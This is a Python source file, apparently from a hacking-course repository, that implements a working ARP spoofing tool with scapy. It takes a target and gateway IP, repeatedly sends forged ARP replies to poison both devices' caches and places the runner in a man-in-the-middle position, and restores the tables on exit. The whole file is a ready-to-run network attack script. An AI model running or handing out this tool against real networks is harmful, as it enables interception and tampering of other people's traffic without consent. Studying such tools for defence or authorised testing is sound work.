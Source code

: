 #!/usr/bin/env python
import scapy.all as scapy
import argparse
import time
import sys

def get_arguments():
    parser = argparse.ArgumentParser()
    parser.add_argument("-t", "--target", dest="target", help="Specify target ip")
    parser.add_argument("-g", "--gateway", dest="gateway", help="Specify spoof ip")
    return parser.parse_args()

def get_mac(ip):
    arp_packet = scapy.ARP(pdst=ip)
    broadcast_packet = scapy.Ether(dst="ff:ff:ff:ff:ff:ff")
    arp_broadcast_packet = broadcast_packet/arp_packet
    answered_list = scapy.srp(arp_broadcast_packet, timeout=1, verbose=False)[0]
    return answered_list[0][1].hwsrc

def restore(destination_ip, source_ip):
    destination_mac = get_mac(destination_ip)
    source_mac = get_mac(source_ip)
    packet = scapy.ARP(op=2, pdst=destination_ip, hwdst=destination_mac, psrc=source_ip, hwsrc=source_mac)
    scapy.send(packet, 4)

def spoof(target_ip, spoof_ip):
    target_mac = get_mac(target_ip)
    packet = scapy.ARP(op=2, pdst=target_ip, hwdst=target_mac, psrc=spoof_ip)
    scapy.send(packet, verbose=False)


arguments = get_arguments()
sent_packets = 0
try:
    while True:
        spoof(arguments.target, arguments.gateway)
        spoof(arguments.gateway, arguments.target)
        sent_packets+=2
        print("\r[+] Sent packets: " + str(sent_packets)),
        sys.stdout.flush()
        time.sleep(2)

except KeyboardInterrupt:
    print("\n[-] Ctrl + C detected.....Restoring ARP Tables Please Wait!")
    restore(arguments.target,arguments.gateway)
    restore(arguments.gateway, arguments.target)
